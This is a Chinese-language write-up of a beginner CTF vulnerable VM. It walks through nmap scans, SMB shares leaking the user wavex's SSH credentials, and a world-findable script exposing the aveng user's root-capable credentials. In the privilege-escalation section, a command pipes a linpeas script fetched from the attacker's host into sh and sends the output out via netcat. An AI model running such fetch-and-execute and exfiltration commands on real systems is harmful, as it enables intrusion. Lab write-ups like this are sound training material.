# 靶机描述

这是一台标榜难度为简单的开源靶机。作者在描述中说，这是 CTF 入门级别难度的靶机。考验渗透测试人员的基本功底。



# 信息收集

1. 主机发现
目标 IP 地址是 192.168.2.48。

 2. 端口扫描

```
# Nmap 7.99 scan initiated Fri Aug  7 15:50:51 2026 as: /usr/lib/nmap/nmap -sT --min-rate 10000 -oA nmapscan/TCPS 192.168.2.48
Nmap scan report for 192.168.2.48
Host is up (0.0032s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:E9:11:4E (VMware)

# Nmap done at Fri Aug  7 15:50:52 2026 -- 1 IP address (1 host up) scanned in 0.75 seconds

```

详细信息扫描结果

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 6f:ee:95:91:9c:62:b2:14:cd:63:0a:3e:f8:10:9e:da (DSA)
|   2048 10:45:94:fe:a7:2f:02:8a:9b:21:1a:31:c5:03:30:48 (RSA)
|   256 97:94:17:86:18:e2:8e:7a:73:8e:41:20:76:ba:51:73 (ECDSA)
|_  256 23:81:c7:76:bb:37:78:ee:3b:73:e2:55:ad:81:32:72 (ED25519)
80/tcp  open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.7 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
MAC Address: 00:0C:29:E9:11:4E (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14, Linux 3.8 - 3.16
Network Distance: 1 hop
Service Info: Host: WESTWILD; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -59m53s, deviation: 1h43m55s, median: 6s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: westwild
|   NetBIOS computer name: WESTWILD\x00
|   Domain name: \x00
|   FQDN: westwild
|_  System time: 2026-08-07T11:00:18+03:00
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-08-07T08:00:18
|_  start_date: N/A
|_nbstat: NetBIOS name: WESTWILD, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

```

目标开放了 22，80，139，445 端口。22 端口的 ssh 服务很难一下子拿到立足点。445 的 Samba 共享文件服务，很容易泄露一些敏感信息。我们可以优先测试 139和445的samba服务。

3. 漏洞脚本扫描

```
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:E9:11:4E (VMware)

Host script results:
| smb-vuln-regsvc-dos: 
|   VULNERABLE:
|   Service regsvc in Microsoft Windows systems vulnerable to denial of service
|     State: VULNERABLE
|       The service regsvc in Microsoft Windows 2000 systems is vulnerable to denial of service caused by a null deference
|       pointer. This script will crash the service if it is vulnerable. This vulnerability was discovered by Ron Bowes
|       while working on smb-enum-sessions.
|_          
|_smb-vuln-ms10-061: false
|_smb-vuln-ms10-054: false
```

漏洞脚本没有给出特别有用的信息。

# WEB 渗透

打开WEB页面


页面给了我们一个提示，这很简单，只要你跟着 wave。这里我以为 wave 是网站的资源路径，但结果不是。我们进行路径爆破。


结果没有我们感兴趣的信息。

# SMB 服务渗透

使用 smbclient 工具枚举共享文件夹。



这里有一个 wave 的共享文件夹，我们非常感兴趣。我们链接这个文件夹。
发现这个文件夹里面有两个文件，一个是 FLAG1.txt 文件，还有一个是 message_from_aveng.txt。下载到本地打开。





我们获得了 wavex 用户的凭据。
查看另一个文件。



大致意思是这个 wavex 用户可以重置 Aveng 用户的密码。这是一个很关键的信息。

# 获得立足点

使用 wavex 用户凭据登录 ssh。



但是当前用户没法运行sudo 命令，也没有定时任务。我们必须找个法子进行权限提升。

# 权限提升

使用 linpeas 工具进行权限枚举。
使用命令如下
```shell
nc -lvnp 81 | tee linpeas.out  #kali
curl http://192.168.2.47/linpeas.sh | sh | nc 192.168.2.47 81 #target
```



但是没有啥可利用的结果。
message_from_aveng.txt 文件中，说了 avent 需要 wavex 用户重置密码。但是立足点显示 wavex 用户没法使用 sudo 命令，不可以使用 passwd 命令。所以可能是 wavex 用户可以使用某个文件。wavex 可以对这个文件进行运行，读取，或者编辑。而 avent 用户没法读取或者运行，说明这个文件属主很可能是 wavex。

我们构造 find 命令来查找文件。-uid 告诉 find 命令，我们要查找这个 1001(wavex) 用户的所有文件。-perm /700 就是有读写执行权限的文件。全部显示出来。



其中，这里的 /usr/share/av/westsidesecret/ififoregt.sh 文件我们很感兴趣。


也是成功获得了 aveng 用户的凭据。登录尝试。用户 avent 拥有 root 的所有。我们成功拿下这台靶机。



# 总结

这台靶机并不困难，很有 CTF 风格。我们通过 Samba 服务泄露的 wave 目录获得 wavex 用户的 ssh 凭据。泄露的交流信息，暗示了 avent 用户的凭据文件存在。这个过程需要一点想象力。